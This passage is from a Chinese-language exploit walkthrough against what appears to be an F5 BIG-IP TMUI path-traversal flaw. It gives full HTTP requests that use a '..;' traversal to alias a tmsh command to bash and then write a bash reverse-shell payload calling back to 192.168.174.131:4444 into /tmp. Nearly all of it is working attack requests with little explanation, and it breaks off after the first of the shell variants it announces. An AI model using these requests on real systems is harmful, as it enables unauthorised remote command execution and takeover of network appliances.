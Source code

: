 Step 1：首先，创建执行命令的模式，将list设置为bash  

```
tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuH0lExpR1EunjPZRDzBHFre2y04bFTbHs352yVUOL4XjJ8O849FA1O0g/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F




```

  
  
Step 2：创建包含反弹shell的命令并以文本文件形式保存（这里介绍三种反弹shell的方式:bash\nc\python，其余的类似于perl、ruby等不再赘述）  
  
a、bash反弹shell  

```
fileSave.jsp?fileName=/tmp/1.txt&content=bash+-i+>%26/dev/tcp/192.168.174.131/4444+0>%261
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHlUjI4var8PicI3HK0aRy4SqCdsYWcvYob60oawacX5vZzrENzvNExBw/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/1.txt&content=bash+-i+>%26/dev/tcp/192.168.174.131/4444+0>%261 HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F




```